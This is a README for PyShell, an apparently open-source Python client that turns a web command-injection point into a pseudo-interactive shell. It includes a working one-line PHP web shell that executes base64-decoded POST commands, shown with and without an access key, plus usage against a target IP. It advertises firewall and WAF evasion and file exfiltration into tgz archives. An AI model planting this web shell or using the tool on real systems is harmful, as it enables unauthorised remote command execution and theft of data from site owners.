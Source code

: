 # PyShell - Shellify Your HTTP Command Injection!

Firewall got you down? Are your reverse-shell connection attempts being
filtered? Are you stuck working solely over HTTP / HTTPS? Then this just might
be just the thing for you.

PyShell exists to make interacting with web-based command injection less
painful. The goal is to make it feel as much like an interactive shell as
possible. Commands are base-64 encoded to help deal with WAFs, and are submitted
as POST requests to be less visible in request logs.

Usage is `python3 pyshell.py URL [-k key]` where URL points to a script which performs
the command injection, something like this:

```
<?php $key = ''; if (isset($_POST[$key.'cmd'])) { $r=base64_decode($_POST[$key.'cmd']).' '.base64_decode($_POST['opts']); echo `$r`} ?>
```

The server-side script should accept the following parameters:
 - `cmd`: the command to be run, base64 encoded
 - `opts`: the options to provide to cmd, also base64 encoded
 - `[timeout]`: optional, denotes the number of seconds to wait for a command

## Restricting access to the shell

To restrict access to the shell put a value in `$key` and pass the value to 
pyShell with `-k`:

First generate a random key.  On GNU/Linux to generate a 32 byte (256 bit) key you can do this:
```
% dd if=/dev/urandom bs=1 count=32 2>/dev/null | base64 -w 0 | rev | cut -b 2- | rev
G4ur5Mhxmb7ZsWt/h+OMDhzTDuLKEbrvmBlD0yoVslQ
```

Set `$key` to your random key:   
```
<?php $key = 'G4ur5Mhxmb7ZsWt/h+OMDhzTDuLKEbrvmBlD0yoVslQ'; if (isset($_POST[$key.'cmd'])) { $r=base64_decode($_POST[$key.'cmd']).' '.base64_decode($_POST['opts']); echo `$r`} ?>
```

Pass the key variable to PyShell:
```
% python3 pyshell.py http://192.168.56.101 -k G4ur5Mhxmb7ZsWt/h+OMDhzTDuLKEbrvmBlD0yoVslQ
```

## USAGE DEMO:
![Screencast](pyshell-usage.gif)

## COOL FEATURES:
 - Basic command history (up arrow / down arrow to navigate).
 - Navigate directory tree with `cd [target]` pseudo-command.
 - Exfiltrate files or folders via `get [target]` pseudo-command.
 - Tab completion. (whoa!)

## KNOWN ISSUES:
 - Trying to `cd` into a non-existent directory is not prevented

## MISC NOTES:
Note that you only get output when the command you run exits. Interactive
commands are also unsupported, for reasons that should be obvious -- although if
you ever forget why while using PyShell, we'll consider that a success!

To change the timeout parameter passed with each command, run `settimeout n`. It
defaults to 20. Unless you handle the timeout parameter server side, it does
exactly nothing.

Your command-history is located in `~/.pyshellhistory`.

When exfiltrating data, a tgz file will be created in the `downloads`
subdirectory (which will be created as needed). If you do not have permission to
read a file, the file will simply be omitted in the downloaded archive.
